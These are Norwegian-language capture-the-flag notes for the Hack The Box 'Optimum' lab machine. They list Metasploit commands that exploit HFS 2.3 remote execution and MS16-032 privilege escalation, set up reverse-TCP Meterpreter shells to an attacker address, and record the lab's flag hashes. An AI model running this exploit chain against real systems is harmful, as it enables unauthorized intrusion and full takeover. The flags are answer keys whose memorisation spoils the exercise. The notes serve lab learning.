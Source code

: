 ## optimum 10.10.10.8

**windows server 2012 x64**

nmap port 80

hfs 2.3 server. finnes exploit

`use exploit/windows/http/rejetto_hfs_exec`

sett srvhost til samme som lhost men ikke srvport

husk å sette lhost også

`use post/multi/manage/shell_to_meterpreter`

user.txt **d0c39409d7b994a9a1389ebf38ef5f73**

MS16-032 SYSTEM Privilege Escalation

prøvd å laste opp ps1-script og får kjørt det, men prosessen ligger i bakgrunnen.- sjekk ps kommando

må finne en måte å få reverse shell fra powershellet

`use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

tror denne er riktig.

`use post/multi/recon/local_exploit_suggester`**  **

```
use exploit/windows/local/payload_inject
set payload windows/powershell_reverse_tcp
```

`Import-Module ./lol.ps1`

`Invoke-MS16-032`

gjøre fra 32 til 64 bit shell

`use windows/local/payload_inject`

`set payload windows/x64/meterpreter/reverse_tcp`

skal ikke være patchet i følge `get-hotfix`

`PS C:\Users\kostas\Desktop>get-executionpolicy`

`Bypass`

skal være mulig å execute hva som helst

`set target 1`**- viktig for å sette target til x64**

ting som må stemme:

**må ha et x64 meterpreter shell**

**må sette target til x64**

**må sette payload til x64/meterpreter**

`set payload windows/x64/meterpreter/reverse_tcp`

`use exploit/windows/http/rejetto_hfs_exec`

`set srvhost 10.10.12.238`

`set lhost 10.10.12.238`

`set rhost 10.10.10.1`

`set lport 4444`

`exploit`

**`use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`**

`set session 1`

`set target 1`

`set lhost 10.10.12.238`

`set lport 4444`

`exploit`

root.txt **51ed1b36553c8461f4552c2e92b3eeed**

